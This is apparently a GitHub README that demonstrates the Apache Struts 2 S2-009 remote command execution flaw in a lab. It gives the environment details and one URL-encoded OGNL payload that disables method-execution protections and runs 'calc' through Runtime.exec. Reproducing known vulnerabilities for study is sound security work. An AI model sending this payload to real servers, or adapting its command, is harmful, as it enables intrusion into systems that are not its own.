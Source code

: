 # S2-009 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software: `Struts 2.0.0` - `Struts 2.3.1.1`

Problem: The vulnerability allows a malicious user to bypass all the protections (regex pattern, deny method invocation) built into the ParametersInterceptor, thus being able to inject a malicious expression in any exposed string variable for further evaluation.

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 6.0.9` (Only in this version did I run payload successfully).

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![{39A82E8C-90BA-420A-BBEE-27B90FEEF2EC}_20200713172021]({39A82E8C-90BA-420A-BBEE-27B90FEEF2EC}_20200713172021.jpg)

## Payload

`test.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27calc%27%29%29%28meh%29&z[%28foo%29%28%27meh%27%29]=true`

## Reference

- [S2-009](https://cwiki.apache.org/confluence/display/WW/S2-009)


